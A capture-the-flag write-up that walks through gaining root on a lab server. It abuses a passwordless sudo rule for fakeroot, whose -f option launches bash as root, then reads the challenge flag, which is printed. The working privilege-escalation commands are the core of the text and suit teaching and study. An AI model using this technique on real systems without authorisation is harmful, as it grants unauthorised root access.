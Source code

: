 # Fake News

We are provided with an user SSH login. Once on the server, we can explore a bit and we quickly find something interesting:

```
user@65fbb9aee61c7005bfc08c5e2dec9231:~$ sudo -l
Matching Defaults entries for user on 65fbb9aee61c7005bfc08c5e2dec9231:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User user may run the following commands on
        65fbb9aee61c7005bfc08c5e2dec9231:
    (ALL) NOPASSWD: /usr/bin/fakeroot -f *
```

The `sudo` command here allows us to see what commands we can run with superuser privileges. We see that the `usr/bin/fakeroot -f` command can be ran this way, with anything as the argument.

Fakeroot is a tool that makes the environment look like it has root privileges for file manipulation: this is particularly useful to create archives with files in them having root ownership, without actually having it. By looking at the manual page for this command, we see this:

```
--faked binary
    Specify an alternative binary to use as faked. 
```

*Here, `-f` is shorthand for this `--faked` option.*
The **faked** that the manual refers to can be set to anything, therefore we could try setting it as something useful like `bash`:

```
user@65fbb9aee61c7005bfc08c5e2dec9231:~$ sudo /usr/bin/fakeroot -f bash
root@65fbb9aee61c7005bfc08c5e2dec9231:/home/user# id
root@65fbb9aee61c7005bfc08c5e2dec9231:/home/user# ls
```

Here we see that there is no output at all, for any of our commands.. but if we try to escape that shell with a simple `^D`, we can access the real root shell:

```
root@65fbb9aee61c7005bfc08c5e2dec9231:/home/user# 
exit
root@65fbb9aee61c7005bfc08c5e2dec9231:/home/user# cat /root/flag.txt 
RM{Omg_Fakeroot_is_Fak3???}
```
